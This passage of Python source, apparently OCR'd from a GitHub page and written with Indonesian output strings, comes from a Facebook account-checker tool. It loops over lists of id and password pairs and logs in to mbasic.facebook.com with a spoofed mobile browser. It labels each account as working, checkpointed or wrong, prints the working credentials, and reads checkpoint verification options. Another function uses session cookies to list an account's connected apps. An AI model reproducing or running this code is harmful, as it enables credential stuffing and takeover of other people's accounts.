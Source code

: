 				print('\r%s++++ %s ----> Error      %s'%(b,kes,x))
				print('\r%s---> Pemisah Tidak Didukung Untuk Program Ini%s'%(u,x))
				continue
			bi = random.choice([u,k,kk,b,h,hh])
			print('\r%s---> %s/%s ---> { %s }%s'%(bi,love,len(akun),id,x), end=' ');sys.stdout.flush()
			ua = 'Mozilla/5.0 (Linux; Android 11; TECNO KD8) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4755.101 Mobile Safari/537.36'
			ses = requests.Session()
			header = {"Host": "mbasic.facebook.com","cache-control": "max-age=0","upgrade-insecure-requests": "1","origin": "https://mbasic.facebook.com","content-type": "application/x-www-form-urlencoded","user-agent": ua,"accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with": "mark.via.gp","sec-fetch-site": "same-origin","sec-fetch-mode": "navigate","sec-fetch-user": "?1","sec-fetch-dest": "document","referer": "https://mbasic.facebook.com/login/?next&ref=dbl&fl&refid=8","accept-encoding": "gzip, deflate","accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"}
			hi = ses.get('https://mbasic.facebook.com')
			ho = sop(ses.post('https://mbasic.facebook.com/login.php', data={'email':id,'pass':pw,'login':'submit'}, headers=header, allow_redirects=True).text,'html.parser')
			if "checkpoint" in ses.cookies.get_dict().keys():
				try:
					jo = ho.find('form')
					data = {}
					lion = ['nh','jazoest','fb_dtsg','submit[Continue]','checkpoint_data']
					for anj in jo('input'):
						if anj.get('name') in lion:
							data.update({anj.get('name'):anj.get('value')})
					kent = sop(ses.post('https://mbasic.facebook.com'+str(jo['action']), data=data, headers=header).text,'html.parser')
					print('\r%s++++ %s|%s ----> CP       %s'%(b,id,pw,x))
					opsi = kent.find_all('option')
					if len(opsi)==0:
						print('\r%s---> Tap Yes / A2F (Cek Login Di Lite/Mbasic%s)'%(hh,x))
					else:
						for opsii in opsi:
							print('\r%s---> %s%s'%(kk,opsii.text,x))
				except:
					print('\r%s++++ %s|%s ----> CP       %s'%(b,id,pw,x))
					print('\r%s---> Tidak Dapat Mengecek Opsi%s'%(u,x))
			elif "c_user" in ses.cookies.get_dict().keys():
				print('\r%s++++ %s|%s ----> OK       %s'%(h,id,pw,x))
			else:
				print('\r%s++++ %s|%s ----> SALAH       %s'%(x,id,pw,x))
			love+=1
		except requests.exceptions.ConnectionError:
			print('')
			li = '# KONEKSI INTERNET BERMASALAH, PERIKSA & COBA LAGI'
			sol().print(mark(li, style='red'))
			exit()
	dah = '# DONE'
	sol().print(mark(dah, style='green'))
	exit()
#----------------------[ CEK-APLIKASI ]---------------------#
def cek_SHOAIB(kuki):
	session = requests.Session()
	w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":"noscript=1;"+kuki}).text
	sop = bs4.BeautifulSoup(w,"html.parser")
	x = sop.find("form",method="post")
	game = [i.text for i in x.find_all("h3")]
	try:
		for i in range(len(game)):
			print ("\r%s  \033[0m              ➛ %s%s"%(P,H,game[i].replace("Ditambahkan pada"," Ditambahkan pada")))
	except AttributeError: